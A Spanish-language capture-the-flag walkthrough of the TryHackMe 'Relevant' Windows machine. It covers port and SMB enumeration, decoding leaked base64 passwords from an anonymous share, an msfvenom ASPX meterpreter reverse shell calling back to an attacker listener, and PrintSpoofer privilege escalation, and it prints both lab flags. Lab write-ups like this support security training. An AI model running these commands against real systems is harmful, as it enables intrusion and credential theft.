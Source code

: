 # Relevant

## Escaneo de puertos

Realizamos primero un escaneo de puertos para ver los puertos abiertos de la máquina vulnerable.

```
nmap -A -sV -sC -T4 -p- 10.10.121.56
```

Después de esperar unos minutos tenemos los siguientes resultados:

![Escaneo de puertos](./images/Pasted_image_20250222121711.png)

Y estos son los resultados del script de`nmap`.

![Imagen](./images/Pasted_image_20250222124555.png)

## Enumerating

Tenemos un servicio HTTP por el puerto 80. Sólo nos aparece la página por defecto de Microsoft IIS.

![[Pasted image 20250222122114.png]]

Vamos a enumerar los directorios con`gobuster`.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.121.56
```

![[Pasted image 20250222124555.png]]

Pero no encontramos nada relevante.

Ahora probamos a enumerar con SMB. Usamos el siguiente comando:

```
smbclient -L 10.10.121.56
```

Accedemos como anónimo y nos muestra los siguientes resultados en los que vemos que hay un sharename llamado`nt4wrksv`.

![[Pasted image 20250222123358.png]]

Probamos a acceder:

```
smbclient \\\\10.10.121.56\\nt4wrksv
```

![[Pasted image 20250222123524.png]]

Listamos el contenido de la ubicación en la que estamos y hay un archivo de`passwords.txt`.

![[Pasted image 20250222123614.png]]

Nos los descargamos y salimos.

```
get passwords.txt
```

![[Pasted image 20250222123702.png]]

Mostramos el contenido en el anfitrión.

![[Pasted image 20250222123727.png]]

Y vemos que claramente está codificado en Base64. Decodificamos con el siguiente comando:

```
echo -n Qm9iIC0gIVBAJCRXMHJEITEyMw== | base64 -d 
```

![[Pasted image 20250222123850.png]]

El usuario es`Bob`y la contraseña es`!P@$$W0rD!123`.

Y la de Bill también tenemos:

`bill`

```
Juw4nnaM4n420696969!$$$
```

![[Pasted image 20250222123958.png]]

Hacemos otro escaneo de`nmap`para determinar qué vulnerabilidades hay:

```
nmap -oA nmap-vuln -Pn -script vuln -p 80,135,139,445,3389 10.10.121.56
```

El servidor de Samba es probablemente vulnerable a RCE por el **CVE-2017-0143**.

![[Pasted image 20250222125516.png]]
## Exploitation

Vamos a usar`msfvenom`para crear una reverse shell aprovechándonos del exploit.

```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.3.33 lport=4444 -f aspx -o shell.aspx
```

![[Pasted image 20250222130621.png]]

Subimos la reverse shell al network share.

```
put shell.aspx
```

![[Pasted image 20250222131746.png]]

Iniciamos un puerto en escucha en Metasploit:

```
msfconsole -q
```

Usamos el siguiente exploit:

```
use exploit/multi/handler
```

Cargamos el payload que queremos:

```
set payload windows/x64/meterpreter_reverse_tcp
```

Configuramos la IP y el puerto con la de Kali en la VPN.

```
set lhost 10.8.3.33
set lport 4444
```

Ejecutamos el exploit:

```
run
```

![[Pasted image 20250222132122.png]]

Abrimos la shell en la víctima

```
curl http://10.10.160.251:49663/nt4wrksv/shell.aspx 
```

Y se nos inicia la consola de meterpreter que estaba en escucha.

![[Pasted image 20250222134122.png]]

La flag de users está en la siguiente ubicación:

```
cat c:/users/bob/desktop/user.txt
```

![[Pasted image 20250222134239.png]]

```
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

## Escalada de privilegios

Comprobamos los privilegios que tiene la sesión de meterpreter.

![[Pasted image 20250222134526.png]]

Tenemos el de`SeImpersonatePrivilege`.

Nos descargamos`PrintSpoofer64.exe`.

https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

Y subimos el archivo.

![[Pasted image 20250222135514.png]]

Nos ubicamos donde está el PrintSpoofer64.exe y lo ejecutamos.

```
PrintSpoofer64.exe -i -c powershell.exe
```

![[Pasted image 20250222140243.png]]

Finalmente, obtenemos la flag del root.

![[Pasted image 20250222140501.png]]

```
THM{1fk5kf469devly1gl320zafgl345pv}
```


